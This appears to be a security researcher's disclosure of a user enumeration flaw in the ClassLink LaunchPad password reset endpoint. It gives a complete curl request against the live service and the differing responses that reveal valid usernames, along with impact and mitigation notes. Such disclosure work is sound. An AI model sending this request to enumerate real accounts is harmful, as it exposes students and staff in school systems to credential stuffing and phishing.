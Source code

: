 # ClassLink User Enumeration Vulnerability (Unauthenticated)

## Summary

A user enumeration vulnerability was discovered in the ClassLink LaunchPad password reset feature. By sending a `POST` request to the `/user/resetpassword/options` endpoint with different usernames, it is possible to distinguish valid accounts based on the application's response. This behavior allows attackers to enumerate valid usernames, which could be used in further attacks like credential stuffing or phishing.

## Affected System

- **Product:** ClassLink LaunchPad (SSO Portal)
- **Vendor:** ClassLink, Inc.
- **Tested As Of:** July 2025
- **Version:** Unknown (cloud-hosted)

## Vulnerability Details

POST /user/resetpassword/options

- A **valid username** returns a response containing a verification token.
- An **invalid username** returns: `"Password Recovery is not set up"`

This difference allows attackers to enumerate users without authentication.

curl -X POST 'https://launchpad.classlink.com/user/resetpassword/options' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://launchpad.classlink.com' \
  -H 'Referer: https://launchpad.classlink.com/resetpassword?scode=[schooldistrictname]' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-CH-UA: "Not)A;Brand";v="8", "Chromium";v="138"' \
  -H 'Sec-CH-UA-Mobile: ?0' \
  -H 'Sec-CH-UA-Platform: "OS"' \
  -H 'Cookie: _csrf=REDACTED; baseurl=%2FUSD497%2F; clsession=REDACTED; clresolution=1680x1050' \
  --data-urlencode 'username=asmith' \
  --data-urlencode 'code=[schooldistrictname]'


Valid username? (exists?) Expected: JSON response containing a verificationToken.

Invaludi username (doesn't exists?) Expected: "Password Recovery is not set up"

Impact

    Allows attackers to discover valid usernames.

    Increases risk of password spraying, credential stuffing, and phishing attacks.

    Particularly sensitive due to use in K–12 educational environments.

Mitigation

The server should return the same generic response for both valid and invalid usernames to prevent enumeration.
Disclosure

    Reported by: Hardly Strange (Security Researcher)
    
<img width="961" height="410" alt="classlink-enum-redacted" src="https://github.com/user-attachments/assets/533dbe86-0903-40a8-b373-db502a982666" />
<img width="1603" height="650" alt="user-enumeration-web-successful" src="https://github.com/user-attachments/assets/b20cde8c-955e-4166-8086-42eaeba22480" />



